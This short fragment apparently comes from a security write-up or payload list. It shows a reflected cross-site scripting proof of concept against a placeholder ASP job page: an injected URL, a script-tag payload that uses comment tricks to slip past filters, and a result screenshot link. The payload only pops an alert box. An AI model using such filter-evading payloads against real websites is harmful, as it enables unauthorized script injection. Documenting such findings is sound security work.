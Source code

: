 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload**:<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`

**Result:**![](https://i.imgur.com/k1a4A3Q.png)<br/>



